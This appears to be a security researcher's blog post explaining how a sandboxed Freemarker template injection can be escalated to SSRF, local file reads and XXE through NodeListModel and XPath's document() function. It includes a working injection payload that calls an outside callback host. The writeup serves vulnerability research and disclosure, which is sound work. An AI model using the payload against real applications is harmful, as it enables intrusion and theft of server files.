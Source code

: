 ```yaml
---
layout: post
title: "The road from sandboxed SSTI to SSRF and XXE"
date: 2020-04-20 13:37:00
---
```


So I spent a whole bunch of hours trying to solve the penultimate challenge on the latest Web Academy server-side template injection labs and while the solution was totally different, I found an interesting new way to transform SSTI bugs into SSRF and XXE on Freemarker.

This technique works when you have SSTI on a template that uses the `SAFER_RESOLVER` template loader, that is, you can instantiate `TemplateModel` objects with the new built-in but you can't just execute commands with `Runtime`/`Execute`/`ObjectConstructor`. So how can we use the available `TemplateModels` to our advantage?

I fuzzed every `TemplateModel` and went through the list of those that I could instantiate and one of them really caught my attention: the `NodeListModel` (only the XML variant of this can be instantiated).

This class takes a list of objects and provides access to them through a pseudo-query language on its get method. Interestingly though, the exec method doc reads: 

> Evaluates an XPath expression on XML nodes in this model. 

This is important because XPath's `document()` function enables XPath-assisted XXE exploits - a seriously underestimated techinque responsible for its very own CVEs.

At this point, there's one important missing ingredient: the `NodeListModel` class will only work with objects of type `Node`. Freemarker has a whole range of features to turn XML into data models and exposing these to templates. So, if the stars are aligned, some of the existing objects in the template you're injecting into might be of type Node.

If this is the case (and I have indeed found such case), you can turn this SSTI into a sweet SSRF by injecting something along the lines of:

```
<#assign x = "freemarker.ext.xml.NodeListModel"?new(doc)>

${x("document('http://cheese.burpcollaborator.net')")}
```

This is limited to what the document function can do though, so the set of allowed protocols boils down to whatever the current XSLT implementation supports. Happily, my tests on Freemarker 2.3.28 + Jaxen show that they support at least `http://`, `https://` and, oh yeah, no biggie, also `file://` - boom! you just got file path traversal, go and fetch yourself some XML-looking files.

As if this wasn't enough I managed to turn this into a full XXE. So never mind XML-looking files, since you can now read any file whatsoever. There is one catch to this though: Freemarker allows the developer to provide their own XSLT implementation (either Xerces or Jaxen) and the latest version of Jaxen doesn't resolve external entities by default, so if you're unlucky, you might not be able to get the XXE after all. But hey, you just managed to go from sandboxed SSTI to SSRF, so the glass is half full, right?

Just look at this beauty:

![alt](../assets/images/ssti-to-ssrf.webp)

Originally posted on [Reddit](https://www.reddit.com/r/Slackers/comments/g6pt8t/the_road_from_sandboxed_ssti_to_ssrf_and_xxe/).
